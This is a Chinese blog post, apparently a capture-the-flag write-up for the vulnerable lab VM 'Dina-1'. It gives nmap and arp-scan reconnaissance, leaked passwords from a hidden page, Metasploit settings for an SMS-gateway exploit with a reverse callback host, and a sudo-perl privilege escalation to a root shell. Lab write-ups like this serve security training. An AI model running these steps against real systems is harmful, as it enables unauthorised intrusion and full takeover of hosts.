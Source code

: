 ```yaml
---
layout: post
title: 2025-07-08-Dina-1
subtitle: 2025-07-08-Dina-1
date: 2025-07-08 10:55
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

主机发现

```shell
sudo arp-scan -l
```

![image.png300](https://img.ghostliner.top/lLgUbT.png)

```shell
nmap -T4 -A -p- 192.168.163.133
```

![image.png300](https://img.ghostliner.top/A2HyBe.png)

只有80端口，访问网站，目录扫描，扫描到`robots.txt` secure目录
![image.png300](https://img.ghostliner.top/Lsk2KW.png)

`/nothing`  发现密码 `my secret pass freedom password helloworld! diana iloveroot`
![image.png300](https://img.ghostliner.top/ppisSE.png)

下载 http://192.168.163.133/secure/backup.zip

使用密码 `freedom` 成功解压
![image.png300](https://img.ghostliner.top/iQNEDt.png)

访问 `/SecreTSMSgatwayLogin` 登陆用户名：touhid 密码：diana

浏览网站发现`send from file`页面可以上传文件，上传木马显示成功，但未找到

```shell
# 扫描网站框架
whatweb -v http://192.168.163.133/SecreTSMSgatwayLogin/
```

![image.png300](https://img.ghostliner.top/BuPbjv.png)

msf搜索相关漏洞，选择0
![image.png300](https://img.ghostliner.top/TDlxDk.png)

```shell
options
set rhosts 192.168.163.133
set lhost 192.168.163.132
set username touhid
set password diana
set TARGETURI http://192.168.163.133/SecreTSMSgatwayLogin/
```

![image.png300](https://img.ghostliner.top/XVCPJ6.png)

```shell
sudo perl -e 'exec "/bin/bash";'
```

![image.png300](https://img.ghostliner.top/RSWciW.png)
